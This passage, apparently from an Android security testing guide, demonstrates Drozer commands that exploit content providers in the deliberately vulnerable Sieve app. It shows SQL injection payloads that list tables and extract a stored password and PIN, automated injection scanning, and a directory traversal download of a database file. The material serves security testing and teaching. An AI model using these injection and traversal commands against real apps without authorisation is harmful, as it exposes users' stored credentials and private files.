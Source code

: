 If vulnerable to SQL Injection, the application will return a verbose error message. SQL Injection in Android can be exploited to modify or query data from the vulnerable content provider. In the following example, the Drozer module `app.provider.query` is used to list all tables in the database:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
| table | Key              | Key              | 5        | CREATE TABLE ... |
```

SQL Injection can also be exploited to retrieve data from otherwise protected tables:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password | pin |
| thisismypassword | 9876 |
```

These steps can be automated by using the `scanner.provider.injection` module, which automatically finds vulnerable content providers within an app:

```
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

##### File System Based Content Providers

A content provider can provide access to the underlying file system. This allows apps to share files, where the Android sandbox would otherwise prevent it. The Drozer modules `app.provider.read` and `app.provider.download` can be used to read or download files from exported file based content providers. These content providers can be susceptible to directory traversal vulnerabilities, making it possible to read otherwise protected files within the target application's sandbox.

```
dz> run app.provider.download content://com.vulnerable.app.FileProvider/../../../../../../../../data/data/com.vulnerable.app/database.db /home/user/database.db
Written 24488 bytes
```

To automate the process of finding content providers susceptible to directory traversal, the `scanner.provider.traversal` module should be used:

```
dz> run scanner.provider.traversal -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```
